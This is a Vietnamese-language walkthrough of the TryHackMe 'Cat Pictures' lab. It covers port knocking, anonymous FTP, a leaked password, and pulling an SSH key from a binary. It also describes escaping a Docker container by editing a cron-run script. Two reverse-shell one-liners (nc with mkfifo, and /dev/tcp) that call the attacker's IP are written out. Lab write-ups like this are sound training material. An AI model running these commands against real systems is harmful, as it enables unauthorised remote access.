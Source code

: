 <div align="center">
    <h1>🐱 TryHackMe Cat Pictures Writeup 🖼️</h1>
</div>

## 🚀 1. Khởi động target

![Start taget](Images/1.png)

## 🔍2. Recon

- Như thường lệ, quét `nmap` để phát hiện các cổng mở.

![Nmap](Images/2.png)

- Kết quả trả về thông tin một số cổng `21`, `22`, `8080`.

    - Port `21` cho dịch vụ `ftp` đang ở trạng thái `Filtered` `(?)`. Có vẻ có thứ gì đó chặn gói tin đến cổng `21`, và `Nmap` không xác định được trạng thái thực sự của cổng.
    - Port `22` cho dịch vụ `ssh` đang mở.
    - Port `8080` đang chạy `http server`.

- Truy cập thử vào taget với port `8080` ta nhận được một trang diễn đàn tạo bởi `PhpBB`.

![Hoangdeptrai](Images/3.png)

- Sử dụng thử `gobuster` quét thư mục ẩn. Phát hiện một số thư mục khá phổ biến trên các trang web.

![Hoangdeptrai](Images/4.png)

- Tuy nhiên khi truy cập thử vào các thư mục này thì không nhận được kết quả gì đặc biệt, có vẻ không thể khai thác thêm theo cách này.

![Hoangdeptrai](Images/5.png)

## 🔑3. Khai thác trang diễn đàn

- Quay lại trang chính của diễn đàn. thấy duy nhất có một bài viết, truy cập thử bài viết này thì nhận thấy có vẻ là một gợi ý.

![Hoangdeptrai](Images/6.png)

- Có vẻ nó liên quan đến kĩ thuật `Port Knocking`, tìm hiểu một chút về kĩ thuật này.

![Hoangdeptrai](Images/7.png)

- Có thể tóm gọn lại: `Port knocking` là kỹ thuật bảo mật giúp ẩn các cổng dịch vụ trên máy chủ. Chỉ khi người dùng gửi đúng chuỗi yêu cầu kết nối đến các cổng theo thứ tự đã định, hệ thống mới mở cổng cần thiết để cho phép truy cập. Mục tiêu là ngăn quét cổng và giảm nguy cơ tấn công từ bên ngoài.
- Thử sử dụng công cụ `knock` để "gõ" các cổng theo thứ tự gợi ý.
```bash
 knock 10.10.181.195 1111 2222 3333 4444
```

![Hoangdeptrai](Images/8.png)

- Sau khi thực hiện, nhận thấy cổng `21` lúc trước bị `filtered` đã được mở, có lẽ có gì giấu ở đây =))

- Đăng nhập vào dịch vụ `ftp` dưới tên `anonymous`, phát hiện một file `note.txt`.

![Hoangdeptrai](Images/9.png)

- Tải file này về máy và đọc thử.

![Hoangdeptrai](Images/10.png)

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
Connect to port 4420, the password is sardinethecat.
- catlover
```

- Dựa vào đoạn gợi ý, có vẻ ta thu được một mật khẩu là `sardinethecat` và một người dùng là `catlover`.

- Bên cạnh đó là việc gợi ý kết nối tới port `4420`, sử dụng `nc` truy cập tới taget với port kể trên.

![Hoangdeptrai](Images/11.png)

- Nhập mật khẩu là `sardinethecat` nhận được ở trên, ta truy cập vào được một shell của server.

![Hoangdeptrai](Images/12.png)

- Tuy nhiên các lệnh cơ bản cũng không thể chạy trên shell này. Có lẽ nên cố gắng tạo một reverse shell để khai thác tốt hơn.

- Tạo reverse shell sử dụng revshells.com.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.175.20 1234 >/tmp/f
```

![Hoangdeptrai](Images/13.png)

- Chạy thành công lệnh, nhận được shell mới.

![Hoangdeptrai](Images/14.png)

- Một số lệnh vẫn không thực hiện được nhưng ít nhất ta có thể `cd`

- Tìm sâu vào `home`, bên trong thư mục `clatlover` thấy một file `runme`, chạy thử thì file này yêu cầu mật khẩu.

![Hoangdeptrai](Images/15.png)

- Nhập thử mật khẩu thu được từ các bước trên nhưng có vẻ không hoạt động.

- Đọc thử file này, nhận được một chuỗi các kí tự lạ.

![Hoangdeptrai](Images/16.png)

- Tuy nhiên nếu đọc kĩ trong đó, thu được một số thông tin có thể đọc được.

![Hoangdeptrai](Images/17.png)

- Một mật khẩu nào đó được nhập, có vẻ là `rebecca`. Thử chạy lại file `runme` với mật khẩu này.

![Hoangdeptrai](Images/18.png)

- Ta thu được một file chứa `RSA` private key

![Hoangdeptrai](Images/19.png)

- Có vẻ có thể đăng nhập `SSH` bằng key này, vì thế ta tải về và thử đăng nhập. `rsa` key này không có mật khẩu

![Hoangdeptrai](Images/20.png)

- Đăng nhập thành công, truy cập được vào id `root`

![Hoangdeptrai](Images/21.png)

- Tìm file flag.
```bash
find / -name "flag.txt" 2>/dev/null
```

![Hoangdeptrai](Images/22.png)

=> Tìm được flag đầu tiên. 🚩🚩🚩

- Trong quá trình tìm root flag, tôi nhận ra có vẻ như shell này đang ở trong `docker container`, cần tìm cách thoát khỏi nó.

![Hoangdeptrai](Images/23.png)

- Tìm kiếm tất cả các file và thư mục trong container này.

![Hoangdeptrai](Images/24.png)

- Có thể tìm được gì đó trong file `.bash_history`

![Hoangdeptrai](Images/25.png)

- Theo đó, nhận thấy một file được tương tác là `/opt/clean/clean.sh` và có vẻ nó được chạy `cronjob` - lệnh tự động chạy theo lịch định sẵn trên hệ điều hành Linux.

- Nếu thay đổi file này, có thể tạo reverse shell đến `root` của server.

![Hoangdeptrai](Images/26.png)

- Chèn reverse shell vào file kể trên.

```bash
/bin/sh -i >& /dev/tcp/10.21.175.20/4444 0>&1
```

![Hoangdeptrai](Images/27.png)

- Lưu lại file, sau đó việc cần làm là đợi vài phút để file thực thi tự động.

- Nếu thành công, ta nhận được `root shell`

![Hoangdeptrai](Images/28.png)

- Giờ việc đơn giản còn lại là tìm nốt root flag

![Hoangdeptrai](Images/29.png)

=> Tìm được `root flag` 🚩🚩🚩


![Hoangdeptrai](Images/30.png)

![Hoangdeptrai](Images/31.png)

=> Hoàn thành bài lab :)) 🎉🎉🎉